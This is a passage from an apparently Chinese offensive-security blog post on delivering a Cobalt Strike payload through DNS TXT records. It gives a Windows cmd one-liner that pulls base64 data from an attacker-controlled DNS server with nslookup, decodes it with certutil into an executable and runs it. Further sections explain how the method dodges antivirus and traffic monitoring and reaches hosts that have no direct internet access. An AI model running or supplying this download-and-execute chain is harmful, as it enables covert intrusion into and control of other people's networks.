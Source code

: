 
所以需要把上面的字符串简单处理一下，这个简单写个 python 脚本就能解决，这里就不写了

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112055.png)

将这段字符复制到 `TXT` 记录的配置处

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112100.png)

重启 DNS 服务

    
    
    systemctl restart named  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112103.png)

### 目标主机一条命令加载并执行程序上线CS

    
    
    cmd /v:on /Q /c "set a= && set b= && for /f "tokens=*" %i in ('nslookup -qt^=TXT www.mydomain.com 192.168.31.88 ^| findstr "exec"') do (set a=%i && echo !a:~5,-2!)" > ttt.txt && certutil -decode ttt.txt a.exe && cmd /c a.exe  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112104.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221214112105.png)

成功上线CS

## 0x07 为什么说这种思想有“跨时代”意义

吹牛成分较大，但是确确实实解决了一些问题，还可以引出很多的扩展的思考

### 1\. 写文件不怕负载均衡设备了

这个没啥说的，我们把一切变成了原子操作

### 2\. 一定程度上躲避杀软和流量检测

我们可以让目标向我们自己的DNS服务器去解析百度的域名，一定程度上会逃过流量检测

### 3\. 将不出网的主机变成了出网主机

这点很重要，很多目标单位重要系统虽然不出网，但是这些服务器配置了自己的内网DNS服务器，也就是说他们可以主动通过单位内部的DNS服务器连接外部，如果结合今天讨论的方法，我们可以
**让这个不出网的主机直接执行一个 DNS隧道的木马** 或者 **让木马做直接做端口复用** ，这样可以完成反向隧道或者正向连接，形成控制不出网主机的目的

下面我们针对目标系统可以执行命令，但是不出网，目标系统配置了它们单位自己的DNS，可以解析DNS这种情况做一下思路整理：

因为本身不出网，假设 `112.112.112.112` 是攻击者的DNS服务器 如果我们执行 `nslookup -qt=TXT baidu.com
112.112.112.112`
这种方式就执行不了了，因为服务器不出网，只能向自己内网配置好的那台DNS服务器发起请求。这个时候我们只能通过买一个域名，之后将域名解析的工作交给
`112.112.112.112` 来进行攻击

